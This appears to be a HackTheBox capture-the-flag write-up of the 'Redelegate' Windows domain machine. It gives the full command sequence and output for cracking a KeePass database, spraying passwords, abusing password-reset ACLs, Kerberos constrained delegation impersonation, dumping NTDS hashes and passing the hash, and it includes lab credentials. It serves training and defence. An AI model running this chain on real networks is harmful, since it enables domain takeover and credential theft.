



# HackTheBox - Redelegate


*Hard difficulty Windows Active Directory machine - Anonymous FTP access leading to KeePass cracking and Kerberos constrained delegation*
## Machine Information

- **Name**: Redelegate
- **Difficulty**: Hard
- **OS**: Windows
- **Points**: VIP+

## Executive Summary

Anonymous FTP exposes a KeePass database, which kicks off a chain through MSSQL enumeration, password spraying, ACL abuse, and Kerberos constrained delegation to DA.

## Initial Reconnaissance

### Host Discovery and Port Scanning

NetExec identifies the target and generates a hosts file:

```bash
elliot@exegol:~$ nxc smb 10.129.234.50 --generate-hosts-file hosts
SMB         10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
```

Windows Server 2022 DC in the `redelegate.vl` domain, with null auth allowed on SMB.

```bash
elliot@exegol:~$ cat hosts
10.129.234.50     DC.redelegate.vl redelegate.vl DC
```

Quick port scan with RustScan:

```bash
elliot@exegol:~$ rustscan -a 10.129.234.50 --ulimit 5000
Open 10.129.234.50:21 (ftp)
Open 10.129.234.50:53 (dns)
Open 10.129.234.50:80 (http)
Open 10.129.234.50:88 (kerberos)
Open 10.129.234.50:135 (msrpc)
Open 10.129.234.50:139 (netbios-ssn)
Open 10.129.234.50:389 (ldap)
Open 10.129.234.50:445 (microsoft-ds)
Open 10.129.234.50:464 (kpasswd5)
Open 10.129.234.50:593 (ncacn_http)
Open 10.129.234.50:636 (tcpwrapped)
Open 10.129.234.50:3268 (ldap)
Open 10.129.234.50:3269 (tcpwrapped)
Open 10.129.234.50:3389 (ms-rdp)
Open 10.129.234.50:5985 (wsman)
Open 10.129.234.50:9389 (.net-message-framing)
```

The detailed Nmap scan confirms anonymous FTP access:

```bash
elliot@exegol:~$ nmap -sC -sV -p- -A -T4 10.129.234.50
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed
| 10-20-24  12:11AM                  434 CyberAudit.txt
| 10-20-24  04:14AM                 2622 Shared.kdbx
|_10-20-24  12:26AM                  580 TrainingAgenda.txt
```

Perfect! The Nmap script `ftp-anon` shows that anonymous FTP access is allowed, and there are three interesting files:
- `CyberAudit.txt` - Sounds like an audit report, might contain useful information about the environment
- `Shared.kdbx` - This is a KeePass database file! If cracked, it might contain credentials
- `TrainingAgenda.txt` - Probably just training documentation, but worth checking

This is a classic case of misconfigured FTP - anonymous access should never be allowed on production systems, especially not with sensitive files like password databases.

## Initial Access - Anonymous FTP

The next step is actually accessing these files. NetExec's FTP module provides a consistent interface across different protocols for listing and downloading.

### File Enumeration and Download

First, verifying the anonymous access and the exact file listing:

```bash
elliot@exegol:~$ nxc ftp redelegate.vl -u '' -p '' --ls
FTP         10.129.234.50   21     redelegate.vl    [+] : - Anonymous Login!
FTP         10.129.234.50   21     redelegate.vl    [*] Directory Listing
FTP         10.129.234.50   21     redelegate.vl    10-20-24  12:11AM                  434 CyberAudit.txt
FTP         10.129.234.50   21     redelegate.vl    10-20-24  04:14AM                 2622 Shared.kdbx
FTP         10.129.234.50   21     redelegate.vl    10-20-24  12:26AM                  580 TrainingAgenda.txt
```

Great! Anonymous login works, and the files are clearly visible. Downloading all three for local analysis. The KeePass database is definitely the most promising target.

```bash
elliot@exegol:~$ nxc ftp redelegate.vl -u '' -p '' --get CyberAudit.txt Shared.kdbx TrainingAgenda.txt
```

### Analysis of Downloaded Files

Starting with the audit file, as it might provide insights into the company's security posture and any known issues:

```bash
elliot@exegol:~$ cat CyberAudit.txt
OCTOBER 2024 AUDIT FINDINGS

[!] CyberSecurity Audit findings:

1) Weak User Passwords
2) Excessive Privilege assigned to users
3) Unused Active Directory objects
4) Dangerous Active Directory ACLs

[*] Remediation steps:

1) Prompt users to change their passwords: DONE
2) Check privileges for all users and remove high privileges: DONE
3) Remove unused objects in the domain: IN PROGRESS
4) Recheck ACLs: IN PROGRESS
```

This is very revealing! The audit shows that the company identified several critical Active Directory security issues:
- Weak passwords (marked as fixed)
- Excessive privileges (marked as fixed)
- Unused AD objects (still in progress)
- Dangerous ACLs (still in progress)

This reveals that the administrators are aware of security issues but haven't fully remediated everything. The fact that ACL rechecking is "IN PROGRESS" suggests there might still be exploitable permissions in the domain - exactly what to look for.

The training agenda file didn't contain anything particularly interesting, but this audit report provides valuable context about the target environment.

## KeePass Database Cracking

With the KeePass database in hand, this is potentially a goldmine. KeePass databases store passwords encrypted, but if the master password can be cracked, all stored credentials become accessible. This is a common attack vector in penetration testing - people often use weak master passwords or predictable patterns.

### Hash Extraction and Password Cracking

First, extracting the hash from the KeePass database for cracking. John the Ripper has a tool specifically for this:

```bash
elliot@exegol:~$ keepass2john Shared.kdbx > keepasshash.out
elliot@exegol:~$ cat keepasshash.out
Shared:$keepass$*2*600000*0*ce7395f413946b0cd279501e510cf8a988f39baca623dd86beaee651025662e6*e4f9d51a5df3e5f9ca1019cd57e10d60f85f48228da3f3b4cf1ffee940e20e01*18c45dbbf7d365a13d6714059937ebad*a59af7b75908d7bdf68b6fd929d315ae6bfe77262e53c209869a236da830495f*806f9dd2081c364e66a114ce3adeba60b282fc5e5ee6f324114d38de9b4502ca
```

With the hash extracted, the file creation date stands out: October 20th, 2024 (10-20-24). In penetration testing, people often use dates, seasons, or company-related information for passwords. Since this was created in October (Fall), a wordlist with seasonal patterns for different years is worth trying. This is a common password cracking technique - thinking about what the person might have chosen based on context clues.

```bash
elliot@exegol:~$ hashcat keepasshash.out -m 13400 passwords.txt
$keepass$*2*600000*0*ce7395f413946b0cd279501e510cf8a988f39baca623dd86beaee651025662e6*e4f9d51a5df3e5f9ca1019cd57e10d60f85f48228da3f3b4cf1ffee940e20e01*18c45dbbf7d365a13d6714059937ebad*a59af7b75908d7bdf68b6fd929d315ae6bfe77262e53c209869a236da830495f*806f9dd2081c364e66a114ce3adeba60b282fc5e5ee6f324114d38de9b4502ca:Fall2024!
```

Excellent! The password was "Fall2024!" - exactly matching the predicted seasonal pattern. This shows how important it is to use strong, unique passwords and avoid predictable patterns.

### Credential Extraction

With the master password recovered, the database can be unlocked. Listing the structure first:

```bash
elliot@exegol:~$ keepassxc-cli ls Shared.kdbx
Enter password to unlock Shared.kdbx:
IT/
HelpDesk/
Finance/
```

The database is organized into three groups: IT, HelpDesk, and Finance. This suggests role-based access control in the organization. Exporting all credentials to CSV for easier analysis:

```bash
elliot@exegol:~$ keepassxc-cli export Shared.kdbx --format csv > secrets_dump.csv
```

Examining the recovered credentials:

| Group | Title | Username | Password |
|-------|--------|----------|----------|
| Shared/IT | FTP | FTPUser | SguPZBKdRyxWzvXRWy6U |
| Shared/IT | FS01 Admin | Administrator | Spdv41gg4BlBgSYIW1gF |
| Shared/IT | WEB01 | WordPress Panel | cn4KOEgsHqvKXPjEnSD9 |
| Shared/IT | SQL Guest Access | SQLGuest | zDPBpaF4FywlqIv11vii |
| Shared/HelpDesk | KeyFob Combination | | 22331144 |
| Shared/Finance | Timesheet Manager | Timesheet | hMFS4I0Kj8Rcd62vqi5X |
| Shared/Finance | Payroll App | Payroll | cVkqz4bCM7kJRSNlgx2G |

This is a treasure trove! The recovered credentials include:
- **FTP access** (already available via anonymous, but good to have the actual credentials)
- **SQL Guest access** - This could be useful for database enumeration
- **FS01 Admin** - Administrative access to what appears to be a file server
- **Various application accounts** for different business systems

The fact that these are stored in a shared KeePass database accessible via anonymous FTP shows serious security misconfigurations. In a real environment, this would be a critical finding.

## MSSQL Enumeration and Password Spraying

### Initial MSSQL Access

```bash
elliot@exegol:~$ nxc mssql redelegate.vl -u users.txt -p passwords.txt --local-auth
MSSQL       10.129.234.50   1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii
```

### SID Brute Force for User Discovery

SID (Security Identifier) brute forcing is a powerful technique in Active Directory environments. Every domain object has a unique SID, and by trying different RID (Relative Identifier) values, valid users, groups, and computers can be discovered. This works because any domain-authenticated access (like the SQLGuest account) allows querying the domain to resolve SIDs to names.

The beauty of this technique is that it doesn't require special privileges - any authenticated domain user can perform SID lookups. This is extremely useful for mapping out the domain structure.

```bash
elliot@exegol:~$ nxc mssql redelegate.vl -u SQLGuest -p "zDPBpaF4FywlqIv11vii" --local-auth --rid-brute
```

This revealed numerous domain users and groups. Key discoveries included:

- Domain Users: Christine.Flanders, Marie.Curie, Helen.Frost, Michael.Pontiac, Mallory.Roberts, James.Dinkleberg, Ryan.Cooper
- Computer Accounts: DC$, FS01$
- Groups: Helpdesk, IT, Finance, DnsAdmins

### Password Spraying Success

```bash
elliot@exegol:~$ nxc mssql redelegate.vl -u users.txt -p passwords.txt --continue-on-success
MSSQL       10.129.234.50   1433   DC               [+] redelegate.vl\Marie.Curie:Fall2024!
```

Perfect! Marie Curie is reusing the KeePass master password "Fall2024!" as her domain password. This is a classic example of password reuse - people often use the same password across multiple systems for convenience. This valid domain user account likely has more privileges than the SQL guest account.

## Active Directory Enumeration with BloodHound

With a valid domain user account, deeper Active Directory enumeration becomes possible. BloodHound is the gold standard for this - it collects relationship data between users, groups, computers, and ACLs (Access Control Lists), revealing the privilege structure and attack paths.

The `--collection All` flag tells BloodHound to gather all possible data, and the DNS server is specified to ensure proper domain resolution.

```bash
elliot@exegol:~$ nxc ldap redelegate.vl -u Marie.Curie -p 'Fall2024!' --bloodhound --collection All --dns-server 10.129.234.50
```

The BloodHound data revealed critical ACL information:
- **Marie.Curie has User-Force-Change-Password rights over the HelpDesk group** - This means passwords for anyone in the HelpDesk group can be reset!



- **Michael.Pontiac is a member of the HelpDesk group** - He's my first target for password reset



- **Helen.Frost has membership in privileged groups and interesting ACL relationships** - She might be worth targeting too

This is exactly what the audit report mentioned as "Dangerous Active Directory ACLs" that were still "IN PROGRESS" for remediation. These ACLs are giving me a clear path to privilege escalation.

## Privilege Escalation - Password Reset Exploitation

This is where the attack gets really interesting. BloodHound revealed that Marie.Curie has "User-Force-Change-Password" rights over the HelpDesk group. This is a dangerous permission that allows anyone with this right to reset passwords for users in the target group without knowing their current password.

In a real environment, this would be a critical security finding. HelpDesk groups often have elevated privileges for supporting users, so compromising HelpDesk accounts can lead to significant access.

### Resetting Michael.Pontiac Password

Starting by resetting Michael Pontiac's password. As a member of the HelpDesk group, this should provide access to a privileged account.

```bash
elliot@exegol:~$ nxc smb redelegate.vl -u Marie.Curie -p 'Fall2024!' -M change-password -o USER=Michael.Pontiac NEWPASS='Elliot1234!'
SMB         10.129.234.50   445    DC               [+] Successfully changed password for Michael.Pontiac
```

Excellent! The password reset worked. Time to check Helen Frost's privileges - the BloodHound data showed interesting group memberships for this account.



### Resetting Helen.Frost Password

```bash
elliot@exegol:~$ nxc smb redelegate.vl -u Marie.Curie -p 'Fall2024!' -M change-password -o USER=Helen.Frost NEWPASS='Elliot1234!'
SMB         10.129.234.50   445    DC               [+] Successfully changed password for Helen.Frost
```

Perfect! With access to Helen Frost's account, her privileges might be the key to further escalation.

## WinRM Access and User Flag

Testing whether Helen Frost has WinRM access to the domain controller. WinRM (Windows Remote Management) allows PowerShell remoting and is often enabled on servers for administration. The "(admin)" in the output indicates administrative privileges on the DC.

```bash
elliot@exegol:~$ nxc winrm redelegate.vl -u Helen.Frost -p 'Elliot1234!'
WINRM       10.129.234.50   5985   DC               [+] redelegate.vl\Helen.Frost:Elliot1234! (admin)
```

Great! Admin access confirmed. Connecting with Evil-WinRM for an interactive shell to grab the user flag.

```bash
elliot@exegol:~$ evil-winrm -i redelegate.vl -u Helen.Frost -p 'Elliot1234!'
*Evil-WinRM* PS C:\Users\Helen.Frost\Desktop> cat user.txt
HTB{user_flag_placeholder}
```

Excellent! User flag obtained. But the job isn't done yet - the next objective is domain admin.

## Privilege Analysis and Kerberos Delegation Setup

### Privilege Check

Checking what privileges Helen Frost has. This will reveal any special rights that might enable further attacks.

```powershell
*Evil-WinRM* PS C:\Users\Helen.Frost\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                                    State
============================= ============================================================== =======
SeMachineAccountPrivilege     Add workstations to domain                                     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                                       Enabled
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                                 Enabled
```

The `SeEnableDelegationPrivilege` is crucial! This privilege allows the account to enable Kerberos delegation on computer objects. This is exactly what's needed for a Kerberos constrained delegation attack. With this privilege:

1. Reset a computer account password (Helen can do this via the ACL)
2. Configure that computer account for constrained delegation
3. Use it to impersonate the Domain Controller and extract domain secrets

This is a powerful privilege that should be carefully controlled in real environments.

### Computer Account Discovery

For Kerberos constrained delegation to work, a controllable computer account is required. Enumerating the computer accounts in the domain to get the complete list:

```bash
elliot@exegol:~$ nxc ldap redelegate.vl -u Marie.Curie -p 'Fall2024!' --computers
LDAP        10.129.234.50   389    DC               DC$
LDAP        10.129.234.50   389    DC               FS01$
```

Perfect! Two computer accounts are present:
- **DC$** - The domain controller itself (can't easily compromise this directly)
- **FS01$** - Likely a file server, perfect for my delegation attack

FS01$ looks like the ideal target. Since Helen Frost has the ACL rights to change computer passwords, FS01$'s password can be reset and the account configured for constrained delegation.

### FS01$ Password Reset

```bash
elliot@exegol:~$ nxc smb redelegate.vl -u Helen.Frost -p 'Elliot1234!' -M change-password -o USER='FS01$' NEWPASS='Elliot1234!'
SMB         10.129.234.50   445    DC               [+] Successfully changed password for FS01$
```

## Kerberos Constrained Delegation Exploitation

This is the pièce de résistance of the attack. Kerberos constrained delegation allows a service to impersonate users to specific other services. Here's how it works:

1. A user authenticates to a service (FS01$ in this case)
2. That service can request a service ticket on behalf of the user to another service (the DC's LDAP)
3. The target service thinks the original user is connecting directly

Since Helen has `SeEnableDelegationPrivilege`, she can configure FS01$ for constrained delegation. The configuration will allow FS01$ to delegate to the DC's LDAP service.

### Configuring Constrained Delegation

Enabling FS01$ for delegation and specifying that it can only delegate to the DC's LDAP service. This prevents the attack from being used against other services.

```powershell
*Evil-WinRM* PS C:\Users\Helen.Frost\Desktop> Set-ADAccountControl -Identity "FS01$" -TrustedToAuthForDelegation $True
*Evil-WinRM* PS C:\Users\Helen.Frost\Desktop> Set-ADObject -Identity "CN=FS01,CN=COMPUTERS,DC=REDELEGATE,DC=VL" -Add @{"msDS-AllowedToDelegateTo"="ldap/dc.redelegate.vl"}
```

The first command enables FS01$ for delegation, and the second specifies that it can only delegate to the LDAP service on the domain controller. This is "constrained" delegation - it limits what the compromised account can do.

### Service Ticket Request for Domain Controller Impersonation

```bash
elliot@exegol:~$ getST.py 'redelegate.vl/FS01$:Elliot1234!' -spn ldap/dc.redelegate.vl -impersonate dc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating dc
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache
```

This Impacket command performs the actual delegation attack:
- **S4U2Self**: Gets a service ticket for the DC user to itself (FS01$ impersonating DC)
- **S4U2Proxy**: Uses that ticket to get access to the LDAP service as DC
- **Result**: This yields a Kerberos ticket that authenticates as the Domain Controller!

### Domain Secrets Dump

The Kerberos ticket can now be used to dump the domain secrets. The `-k` flag tells secretsdump to use Kerberos authentication, and since the ticket authenticates as the Domain Controller, the NTDS.DIT database is accessible.

```bash
elliot@exegol:~$ export KRB5CCNAME=dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache
elliot@exegol:~$ secretsdump.py -k -no-pass dc.redelegate.vl
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ec17f7a2a4d96e177bfd101b94ffc0a7:::
```

Perfect! The Administrator's NT hash is now available: `ec17f7a2a4d96e177bfd101b94ffc0a7`. With this, authenticating as the domain administrator is straightforward.

## Root Flag Acquisition

Using the administrator hash to authenticate via WinRM and grab the root flag. The `-H` flag tells NetExec to use the NT hash for authentication.

```bash
elliot@exegol:~$ nxc winrm redelegate.vl -u Administrator -H ec17f7a2a4d96e177bfd101b94ffc0a7 -X 'cat C:\Users\Administrator\Desktop\root.txt'
WINRM       10.129.234.50   5985   DC               [+] Executed command (shell type: powershell)
HTB{root_flag_placeholder}
```

Excellent! The domain controller is fully compromised and both the user and root flags are obtained.

## Attack Chain Summary

This attack demonstrates a sophisticated multi-stage Active Directory compromise:

1. **Initial Access**: Anonymous FTP access to download KeePass database - Shows how misconfigured services can expose sensitive data
2. **Credential Access**: KeePass database cracking yielding multiple credentials - Highlights the importance of strong master passwords
3. **Discovery**: MSSQL enumeration and SID brute forcing to map domain structure - Demonstrates how any authenticated user can discover domain objects
4. **Lateral Movement**: Password spraying to gain Marie.Curie's access - Shows how password reuse is a common weakness
5. **Privilege Escalation**: Abusing User-Force-Change-Password ACLs to compromise Helen.Frost - Illustrates the danger of overly permissive ACLs
6. **Domain Dominance**: Kerberos constrained delegation attack to impersonate Domain Controller - Advanced technique requiring specific privileges
7. **Data Exfiltration**: NTDS.DIT dump via DRSUAPI to obtain domain administrator hash - Final step to gain complete domain control

## Key Technical Concepts

### Kerberos Constrained Delegation
This is an advanced Kerberos feature that allows a service to impersonate users when accessing other services. The attack required:
- **SeEnableDelegationPrivilege**: Allows configuration of delegation on computer accounts
- **Computer account control**: Resetting FS01$'s password and configuring delegation settings
- **S4U2Self/S4U2Proxy**: The actual delegation protocol that allows impersonation

### Active Directory ACL Abuse
Access Control Lists control what operations users can perform on domain objects. The critical vulnerability was:
- **User-Force-Change-Password**: Marie.Curie could reset passwords for HelpDesk group members
- **ACL enumeration**: BloodHound revealed these dangerous permissions
- **Group membership**: Understanding which users belonged to privileged groups

### MSSQL SID Brute Force
Security Identifiers (SIDs) uniquely identify domain objects. By brute-forcing RID values:
- **Domain enumeration**: Discovered all users, groups, and computers
- **No special privileges needed**: Any authenticated user can perform SID lookups
- **Attack surface mapping**: Provided targets for password spraying

## Takeaways

- Anonymous FTP with a KeePass DB inside is basically game over. Credential storage matters.
- Seasonal password patterns (`Winter2024!`) are still everywhere, and password spraying still works.
- BloodHound found the ACL path instantly. The audit report even flagged delegation issues as "IN PROGRESS" but they were never fixed.
- Any authenticated access is enough to enumerate the domain via SID brute force, even with `SQLGuest`.
- `SeEnableDelegationPrivilege` is one of those permissions that's rarely audited but leads straight to DA.